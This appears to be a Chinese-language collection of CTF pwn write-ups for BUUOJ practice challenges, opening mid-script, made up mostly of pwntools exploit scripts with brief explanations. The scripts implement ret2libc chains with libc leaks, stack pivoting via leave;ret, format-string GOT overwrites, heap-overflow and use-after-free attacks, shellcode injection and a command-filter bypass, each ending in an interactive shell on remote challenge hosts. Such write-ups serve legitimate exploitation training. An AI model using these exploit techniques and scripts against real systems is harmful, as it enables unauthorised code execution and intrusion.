s_addr = int(sh.recvuntil("\n",True),16)
print "=============="
print '0x%x' %s_addr
print "=============="
sh.recvuntil(">")
payload = "crashme"
payload = payload.ljust(10,"\x00")
payload += cyclic(16)
payload += p32(s_addr - 0x1c)
payload += asm(shellcraft.sh())
#gdb.attach(sh,'b *0x80485E4')
#pause()
sh.sendline(payload)
sh.interactive()
铁人三项(第五赛区)_2018_rop
ret2libc
#!/usr/bin/env python
from pwn import *
from LibcSearcher import *
elf=ELF('./rop')
#p=process('./rop')
p=remote('node3.buuoj.cn',25474)
write_plt=elf.plt['write']
write_got=elf.got['write']
payload1='A'*140+p32(write_plt)+p32(0x80484C6)+p32(1)+p32(write_got)+p32(4)
p.sendline(payload1)
write_addr=p.recv()
write_addr=u32(write_addr)
libc=LibcSearcher('write',write_addr)
libcbase=write_addr-libc.dump("write")
system_addr=libcbase+libc.dump("system")
binsh_addr=libcbase+libc.dump("str_bin_sh")
payload2='A'*140+p32(system_addr)+p32(1234)+p32(binsh_addr)
p.sendline(payload2)
p.interactive()
ciscn_2019_es_2
我瞎了，一开始我看到这个 hack 函数，echo flag，嗯，返回到这个地方就打印出 flag 了，又是一道简单的 ret2text
结果写好 exp，只打印出了“flag”才幡然醒悟哈哈哈哈
这道题，栈迁移，找一下 leave;ret 0x080484b8
栈迁移原理
exp：
from pwn import *
#p=remote('node3.buuoj.cn',27789)
p=process('./ciscn')
context.log_level='debug'
sys_addr = 0x08048400
leave_ret = 0x080484b8
payload ='a'*0x20+'bbbbbbbb'
gdb.attach(p,'b *0x80485CD')
p.send(payload)
p.recvuntil('bbbbbbbb')
leak_addr = u32(p.recv(4))
print "======="
print "0x%x" %leak_addr
print "======="
payload2 =('aaaa'+p32(sys_addr)+'bbbb'+p32(leak_addr-0x28)+'/bin/sh\x00').ljust(0x28,'a')
payload2+=p32(leak_addr-0x38)+p32(leave_ret)
p.sendline(payload2)
p.interactive()
通过调试可以看到我们泄露出来的那个值，跟 ebp 的距离正好是 0x10
所以把 fake_ebp 设置为 leak_addr-0x38
[Black Watch 入群题]PWN
又一道栈迁移
from pwn import *
from LibcSearcher import *
context.log_level='debug'
p=process('./spwn')
elf=ELF('./spwn')
#p=remote('node3.buuoj.cn',28212)
write_plt = elf.plt['write']
write_got = elf.got['write']
main_addr = elf.symbols['main']
leave_addr = 0x08048511
bss_addr = 0x804A300
p.recvuntil('name?')
payload ='a'*4 + p32(write_plt)+p32(main_addr)+p32(1)+p32(write_got)+p32(4)
p.send(payload)
p.recvuntil('say?')
payload1 = 'a'*24 + p32(bss_addr)+p32(leave_addr)
p.send(payload1)
write_addr = u32(p.recv(4))
print "0x%x" %write_addr
libc = LibcSearcher("write",write_addr)
libc_base = write_addr - libc.dump('write')
sys_addr = libc_base + libc.dump('system')
print "0x%x" %sys_addr
p.recv()
payload2 ='a'*4 + p32(sys_addr) + 'a'*4 + p32(bss_addr + 4*4) + "/bin/sh\x00"
p.send(payload2)
p.recv()
payload3 = 'a'*0x18 + p32(bss_addr) + p32(leave_addr)
p.send(payload3)
p.interactive()
[BJDCTF 2nd]test
这道题，更像 web 题的命令执行被过滤了？

ssh -p 29201 ctf@node3.buuoj.cn
连上之后可以查看 test.c，如下：
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
int main(){
gets(cmd);
if( strstr(cmd, "n")
||strstr(cmd, "e")
||strstr(cmd, "p")
||strstr(cmd, "b")
||strstr(cmd, "u")
||strstr(cmd, "s")
||strstr(cmd, "h")
||strstr(cmd, "i")
||strstr(cmd, "f")
||strstr(cmd, "l")
||strstr(cmd, "a")
||strstr(cmd, "g")
||strstr(cmd, "|")
||strstr(cmd, "/")
||strstr(cmd, "$")
||strstr(cmd, "`")
||strstr(cmd, "-")
||strstr(cmd, "<")
||strstr(cmd, ">")
||strstr(cmd, ".")){
exit(0);
}else{
system(cmd);
}
return 0;
}
可以用这行命令来看一下还有哪一些命令是可以用的
ls /usr/bin/ /bin/ | grep -v -E "n|e|p|b|u|s|h|i|f|l|a|g"
先 x86_64 然后再 cat flag 就可以了，另外也可以 od * 读成八进制然后再转换一下
补一些查看文件的命令：
cat、tac、more、less、head、tail、nl、od、sort、vi、bzmore、bzless、paste、diff、strings
bjdctf_2020_babyrop
ret2libc，写完 payload2 忘记 send，找了好一会问题😂
from pwn import *
from LibcSearcher import *
p=remote('node3.buuoj.cn',28833)
#p=process('./babyrop')
elf=ELF('./babyrop')
put_plt=elf.plt['puts']
put_got=elf.got['puts']
pop_rdi=0x400733
main_addr=0x4006AD
payload = 'a'*40 + p64(pop_rdi) + p64(put_got) + p64(put_plt) + p64(main_addr)
p.recvuntil('story!\n')
p.send(payload)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
libc=LibcSearcher('puts',puts_addr)
libc_base=puts_addr-libc.dump('puts')
sys_addr=libc_base+libc.dump('system')
binsh_addr=libc_base+libc.dump('str_bin_sh')
payload2 = 'a'*40+p64(pop_rdi)+p64(binsh_addr)+p64(sys_addr)+p64(main_addr)
p.recvuntil('story!\n')
p.send(payload2)
p.interactive()
jarvisoj_level3
from pwn import *
from LibcSearcher import *
#p = process('./level3')
p = remote('node3.buuoj.cn',25876)
elf = ELF('./level3')
write_plt=elf.plt['write']
write_got=elf.got['write']
main_addr=elf.symbols['main']
payload1='A'*140+p32(write_plt)+p32(main_addr)+p32(0x1)+p32(write_got)+p32(0x4)
#write 函数原型是 write(1,address,len) ，1表示标准输出流 ，address 是 write 函数要输出信息的地址 ，而 len 表示输出长度
p.recvuntil("Input:\n")
p.sendline(payload1)
write_addr = u32(p.recv(4))
#通过 LibcSeacher 获得 libc 版本
libc=LibcSearcher('write',write_addr)
#计算 libc 的地址
libcbase=write_addr-libc.dump("write")
#计算 system 地址
system_addr=libcbase+libc.dump("system")
#计算 /bin/sh 地址
binsh_addr=libcbase+libc.dump("str_bin_sh")
payload='A'*140+p32(system_addr)+p32(0xbeadbeef)+p32(binsh_addr)
p.sendline(payload)
p.interactive()
[BJDCTF 2nd]r2t4
有一个后门，地址是：0x400626，主函数里面有一个格式化字符串的漏洞
思路是通过这个漏洞，把 stack_chk_fail 的 got表给改掉，改成 backdoor 的地址，这样当程序发现 canary 被修改去调用 stack_chk_fail 的时候就调用了 backdoor
hhn 写入的就是单字节，hn 写入的就是双字节，先来看一下格式化字符串解析的地方，数一下它的参数，第六个
from pwn import *
p = remote('node3.buuoj.cn','29127')
#p = process('./pwn')
elf = ELF('pwn')
__stack_chk_fail=elf.got['__stack_chk_fail']
payload = "%64c%9$hn%1510c%10$hnAAA" + p64(__stack_chk_fail+2) + p64(__stack_chk_fail)
#我们输入的是在第六个，然后上面的字符串占了3位，所以后面第一个p64是第九位，然后第十位
#64是0x0040,写到了地址+2处,然后再写1510+64也就是626,写到地址处,就是0x0626
p.sendline(payload)
p.interactive()
others_shellcode
nc 连接就有...
babyfengshui_33c3_2016
先熟悉一下程序的功能，增删改查退
在 IDA 里面看一下，给他们改个名字先
先申请一个 desc 的 size，然后申请 0x80 的 v2 作为结构体，里面保存 desc 的地址和 name
在 update 的时候，有一行检验长度的，检验逻辑是这样的，你输入的长度加上 desc 的地址，看看是不是超过了申请的结构体堆块的地址
想法很好，但是当我们 add 几个 user 去释放掉第一个，重新申请一块能够把第一个的 desc 和 结构体全都占满的 desc 的堆块，那么申请的结构体的堆块就只能往后排，这时候就绕过了他的检验，我们就能够往其他的堆块里面写东西了
如图：
#!/usr/bin/python
#coding:utf-8
from pwn import *
from LibcSearcher import *
#context.log_level = 'debug'
p=process('./pwn1')
elf=ELF('./pwn1')
#p=remote('node3.buuoj.cn',26004)
def cmd(num):
p.sendlineafter('Action: ',str(num))
def add(size,name,leng,text):
cmd(0)
p.sendlineafter('description: ',str(size))
p.sendlineafter('name: ',name)
p.sendlineafter('length: ',str(leng))
p.sendlineafter('text: ',text)
def dele(index):
cmd(1)
p.sendlineafter('index: ',str(index))
def show(index):
cmd(2)
p.sendlineafter('index: ',str(index))
def update(index,leng,text):
cmd(3)
p.sendlineafter('index: ',str(index))
p.sendlineafter('length: ',str(leng))
p.sendlineafter('text: ',text)
add(0x80,'yichen',0x80,'yichen')
add(0x80,'yichen',0x80,'yichen')
add(0x8,'yichen',0x8,'/bin/sh\x00')
gdb.attach(p)
dele(0)
add(0x100,'yichen',0x19c,"a"*0x198+p32(elf.got['free']))
show(1)
p.recvuntil("description: ")
free_addr = u32(p.recv(4))
print "==============="
print "0x%x" %free_addr
print "==============="
libc = LibcSearcher('free', free_addr)
libc_base = free_addr - libc.dump('free')
sys_addr = libc_base + libc.dump('system')
update(1, 0x4, p32(sys_addr))
dele(2)
p.interactive()
[BJDCTF 2nd]ydsneedgirlfriend2
程序是有一个后门的，0x400D86
可以看到在申请的第一个堆块的时候它把 print_girlfirend_name 这个函数放在了这里
而在 free 的时候，没有置为 NULL
我们把申请的删掉，然后再去申请 0x10 的时候就会跳过前面的 malloc 0x10，因为已经有了

但是因为是 free 的状态，所以我们申请的 0x10，会分配到这里，这样就能控制那个指针，指向 backdoor，来拿到 shell
from pwn import *
#p = process('./pwn')
p = remote('node3.buuoj.cn','26848')
elf = ELF('./pwn')
backdoor = 0x400D86
def cmd(index):
p.recvuntil("u choice :")
p.sendline(str(index))
def add(size,content):
cmd(1)
p.recvuntil("Please input the length of her name:")
p.sendline(str(size))
p.recvuntil("Please tell me her name:")
p.sendline(content)
def delete(index):
cmd(2)
p.recvuntil("Index :")
p.sendline(str(index))
def show(index):
cmd(3)
p.recvuntil("Index :")
p.sendline(str(index))
add(0x20,'aaaa')
delete(0)
add(0x10,p64(backdoor)*2)
show(0)
p.interactive()
jarvisoj_fm
如果 x 是 4 的话就能拿到 shell，通过 vmmap 可以发现这个地址是可以写的，同时上面有一个格式化字符串漏洞

from pwn import *
p=process('./fm')
payload=fmtstr_payload(11, {0x804a02c:0x4})
p.sendline(payload)
p.interactive()
jarvisoj_tell_me_something
有个后门，直接输出 flag
from pwn import *
#p = process('./guestbook')
p = remote('node3.buuoj.cn',29414)
flag_addr = 0x0400620
payload = 'a'*136 + p64(flag_addr)
p.recvuntil(":")
p.sendline(payload)
p.interactive()
jarvisoj_level3_x64
#!/usr/bin/env python
from pwn import *
from LibcSearcher import *
p = remote('node3.buuoj.cn',29203)
#p=process('./level3')
elf = ELF('./level3')
payload = 'a'*0x80 + 'a'*0x8
rdi_add = 0x4006b3
rsir15_add = 0x4006b1
write_plt = elf.plt['write']
write_got = elf.got['write']
vul_add = elf.symbols['vulnerable_function']
payload1 = payload + p64(rdi_add) + p64(0x1) + p64(rsir15_add) + p64(write_got) + 'deadbeef' + p64(write_plt) + p64(vul_add)
p.recvuntil("Input:\n")
p.sendline(payload1)
write_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')
sys_add = libc_base + libc.dump('system')
binsh_add =libc_base+libc.dump('str_bin_sh')
payload2 = payload + p64(rdi_add) + p64(binsh_add) + p64(sys_add)
p.sendline(payload2)
p.interactive()
jarvisoj_level4
直接拿 level3 的 exp 打就行
#coding:utf-8
from pwn import *
from LibcSearcher import *
#p = process('./level4')
p = remote('node3.buuoj.cn',25757)
elf = ELF('./level4')
write_plt=elf.plt['write']
write_got=elf.got['write']
main_addr=elf.symbols['main']
payload1='A'*140+p32(write_plt)+p32(main_addr)+p32(0x1)+p32(write_got)+p32(0x4)
#write 函数原型是 write(1,address,len) ，1表示标准输出流 ，address 是 write 函数要输出信息的地址 ，而 len 表示输出长度
p.sendline(payload1)
write_addr = u32(p.recv(4))
libc=LibcSearcher('write',write_addr)
libcbase=write_addr-libc.dump("write")
system_addr=libcbase+libc.dump("system")
binsh_addr=libcbase+libc.dump("str_bin_sh")
payload='A'*140+p32(system_addr)+p32(0xbeadbeef)+p32(binsh_addr)
p.sendline(payload)
p.interactive()
内容多了打开编辑有点卡，再开一篇